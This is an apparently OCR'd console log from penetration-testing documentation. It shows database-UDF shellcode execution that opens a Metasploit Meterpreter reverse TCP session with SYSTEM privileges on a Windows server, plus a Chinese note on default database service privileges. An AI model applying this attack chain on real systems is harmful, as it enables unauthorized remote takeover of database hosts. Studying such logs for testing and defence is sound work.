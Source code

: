 ```
|  |  |_/|__/|_/\_/|_/ \/ |__/ |__/\__/ |_/|_/
                        /|
                        \|

    =[ metasploit v3.7.0-dev [core:3.7 api:1.0]
+ -- --=[ 674 exploits - 351 auxiliary
+ -- --=[ 217 payloads - 27 encoders - 8 nops
    =[ svn r12272 updated 4 days ago (2011.04.07)

PAYLOAD =&gt; windows/meterpreter/reverse_tcp
EXITFUNC =&gt; thread
LPORT =&gt; 60641
LHOST =&gt; 192.168.136.1
[*] Started reverse handler on 192.168.136.1:60641 
[*] Starting the payload handler...
[hh:mm:48] [INFO] running Metasploit Framework shellcode remotely via UDF 'sys_bineval', 
please wait..
[*] Sending stage (749056 bytes) to 192.168.136.129
[*] Meterpreter session 1 opened (192.168.136.1:60641 -&gt; 192.168.136.129:1689) at Mon Apr 11 
hh:mm:52 +0100 2011

meterpreter &gt; Loading extension espia...success.
meterpreter &gt; Loading extension incognito...success.
meterpreter &gt; [-] The 'priv' extension has already been loaded.
meterpreter &gt; Loading extension sniffer...success.
meterpreter &gt; System Language : en_US
OS              : Windows .NET Server (Build 3790, Service Pack 2).
Computer        : W2K3R2
Architecture    : x86
Meterpreter     : x86/win32
meterpreter &gt; Server username: NT AUTHORITY\SYSTEM
meterpreter &gt; ipconfig

MS TCP Loopback interface
Hardware MAC: 00:00:00:00:00:00
IP Address  : 127.0.0.1
Netmask     : 255.0.0.0

Intel(R) PRO/1000 MT Network Connection
Hardware MAC: 00:0c:29:fc:79:39
IP Address  : 192.168.136.129
Netmask     : 255.255.255.0

meterpreter &gt; exit

[*] Meterpreter session 1 closed.  Reason: User exit
```

默认情况下MySQL在Windows上以SYSTEM权限运行，PostgreSQL在Windows与Linux中是低权限运行，Microsoft SQL Server 2000默认是以SYSTEM权限运行，Microsoft SQL Server 2005与2008大部分是以NETWORK SERVICE有时是LOCAL SERVICE。
